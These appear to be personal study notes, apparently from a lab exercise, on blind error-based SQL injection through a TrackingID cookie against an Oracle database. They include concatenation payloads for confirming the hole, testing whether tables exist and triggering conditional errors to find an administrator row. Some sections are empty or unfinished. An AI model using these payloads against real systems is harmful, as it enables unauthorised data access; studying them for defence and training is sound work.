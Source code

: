 
## Concatenation Technique

Steps
- Prove parameter is vulnerable
- Find Tables
- Find Column Name ??? (Review)
- Find Variables in a Column
- Length of Variable (>,<,<=,>=)
- Enumeration of variable (abc...)

Example Cookie Request
![[Pasted image 20221206184026.png]]

Prove the TrackingID is vulnerable
```
' (error) & '' (back to normal)

' || (select '' || '                     ---> Not Working (Try other database synthax)

' || (select '' from dual) || '          ---> oracle database (True)

' || (select '' from dualfiewjfow) || '  ---> error (False)
```

||                         ---> Simply mean to the query that a new query will be made in the same query


Find Table (Try and Errors)
```
' || (select '' from TABLE where rownum =1) || '
```

rownum                ---> Assure it will only output 1 entry (similar to the LIMIT 1 in Equality Check)
TABLE                   ---> Table we are interested to test (If exist)


**Find Column Name ???**
```

```


Find a Variable in a Column
```
' || (select '' from TABLE where COLUMN='administrator') || '   ---> NOT GOOD

' || (select CASE WHEN (1=0) THEN TO_CHAR(1/0) ELSE '' END FROM dual) || '

' || (select CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM TABLE where COLUMN='administrator') || '                                    ---> (True = Error)

' || (select CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM TABLE where COLUMN='fwefwoeijfewow') || '                                   ---> (False = 200)
```

